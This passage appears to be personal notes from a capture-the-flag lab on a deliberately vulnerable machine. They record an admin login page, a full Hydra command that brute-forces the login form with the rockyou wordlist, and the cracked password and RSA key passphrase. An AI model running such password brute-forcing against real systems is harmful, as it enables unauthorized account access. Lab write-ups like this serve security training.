 ## Admin login page in /admin
![[bruteit6.png]]

## username for login in /admin
![[bruteit5.png]]
username - admin

## Hydra password crack of form
**Command** - 
```python
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.2.70 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -V 
```
username - admin
password - xavier

## RSA key in /admin
![[bruteit7.png]]
rsa key passphrase - rockinroll